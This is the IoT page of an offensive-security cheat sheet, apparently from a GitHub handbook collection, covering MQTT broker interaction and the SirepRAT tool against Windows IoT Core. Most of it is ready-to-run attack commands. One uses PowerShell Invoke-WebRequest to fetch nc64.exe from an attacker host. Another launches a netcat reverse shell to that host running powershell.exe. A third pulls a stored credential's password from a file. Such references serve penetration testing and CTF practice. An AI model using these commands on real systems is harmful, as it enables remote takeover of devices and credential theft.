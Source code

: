 # IoT

## Table of Contents

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#Resources)
- [Mosquitto (MQTT)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#Mosquitto-MQTT)
- [SirepRAT](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#SirepRAT)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |

## Mosquitto (MQTT)

### Client Tools

```c
$ sudo apt-get install mosquitto mosquitto-clients
```

```c
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```c
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```c
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```c
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```c
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```
